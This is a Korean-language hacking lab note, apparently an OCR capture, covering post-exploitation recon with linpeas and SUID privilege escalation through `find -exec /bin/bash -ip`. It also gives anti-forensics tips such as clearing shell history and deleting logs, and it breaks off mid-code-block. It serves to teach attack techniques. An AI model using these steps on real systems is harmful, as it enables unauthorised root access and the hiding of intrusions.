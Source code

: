     예시. `scp linpeas.sh low@172.31.151.214:/home/low/`


3. **타겟에서 스크립트 실행 및 스크립트 결과 저장하기**
	`chmod +x linpeas.sh && ./linpeas.sh > linpeas_result.txt`



> 🎯 **정보수집 팁**
>
> | 상황                             | 전략                                                  |
> | -------------------------------- | ----------------------------------------------------- |
> | 너무 시끄러운 명령 (예: `nmap -A`) 사용 시 | `-T2` 옵션으로 속도 조절 또는 ARP 탐색 선호           |
> | 히스토리/로그 남기고 싶지 않을 때            | `unset HISTFILE`, `history -c`, `/var/log` 수동 삭제 주의 |
> | 자동 정보 수집                       | `LinEnum.sh`, `linpeas.sh`, `pspy` 사용               |

---

# 🔥 권한 상승 
- 목적: 루트 또는 로컬 관리자 권한 획득 → 시스템 장악 후 계정, 데이터, 서비스 통제 가능
---
# 🛡️ 실습 – 파일 권한 SUID 파일
리눅스 SUID 권한 상승: find 바이너리로 root 쉘 얻기
## 1. SUID란 무엇인가?
- **SUID(Set User ID)**는 리눅스/유닉스에서  
  "이 파일을 실행하는 사용자가 누구든, 실행할 때만큼은 파일 '소유자'의 권한으로 실행해준다"는 특별한 권한입니다.
- 보통 실행 파일에 SUID가 걸려 있고, 소유자가 root라면  
  일반 사용자도 그 파일을 실행할 때만 root 권한을 '빌려서' 쓸 수 있습니다.
---
## 2. SUID 바이너리 찾기
- 시스템 전체에서 SUID가 걸린 실행 파일(바이너리) 찾기 명령어:
    ```
    find / -type f -perm -4000 2>/dev/null
    ```
- 예시 출력:
    ```
    /usr/bin/find
    ```  
- `ls -alh /usr/bin/find`
  - 권한이 `-rwsr-xr-x`처럼 **'s'**(소문자 s)가 있으면 SUID가 설정됨
    - `s`는 실행 권한과 SUID가 모두 있는 상태를 의미
---
## 3. SUID가 걸린 find로 root 권한 얻기 (GTFOBins 활용)

### 실제 공격 예시
1. **GTFOBins**(https://gtfobins.github.io/) 에서 find를 검색
2. 위에서 검색 후 참고한 아래 명령어를 실행:
    ```
    find . -exec /bin/bash -ip \;

